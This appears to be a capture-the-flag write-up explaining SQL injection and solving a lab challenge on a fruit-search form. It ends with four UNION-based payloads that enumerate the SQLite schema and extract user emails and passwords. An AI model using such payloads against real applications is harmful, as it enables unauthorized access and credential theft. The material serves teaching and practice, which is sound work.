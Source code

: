 # SQL-Injection

> Emil Lindblad

## What is a SQL-Injection?

SQL-Injection (SQLi) is a vulnerability that allows a user to perform queries to a database in ways not intended by the devloper. SQLi can be used to modify
or access data that the end user is not supposed to have access to, such as credentials for other users.

## Solving the challenge

This challenge drops you into a very basic webpage, containing a simple form with a single input. Based on the data returned, the database contains data about
fruits. The search returns data divided into 3 columns:

|Name|Price|Quantity|
|----|-----|--------|

This challenge was solved completly manually, ie not using any scripts or tools that can automate SQLi

```sql
Apple' UNION SELECT 1,2,3 ;--

Apple' UNION SELECT 1,2, name FROM sqlite_schema ;--

Apple' UNION SELECT 1,2, sql FROM sqlite_schema ;--

Apple' UNION SELECT email,password, name FROM user ;--

```
